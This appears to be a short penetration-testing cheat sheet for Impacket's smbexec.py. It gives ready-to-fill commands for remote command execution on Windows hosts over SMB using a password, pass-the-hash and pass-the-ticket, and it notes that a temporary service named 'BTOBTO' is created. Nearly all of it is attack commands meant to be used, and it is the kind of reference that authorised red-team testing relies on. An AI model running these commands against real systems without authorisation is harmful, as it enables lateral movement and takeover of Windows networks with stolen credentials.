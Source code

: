 # smbexec (imp)

%  windows, impacket-exec, smb


## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py '<domain>/<user>:<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes <hash> <user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```
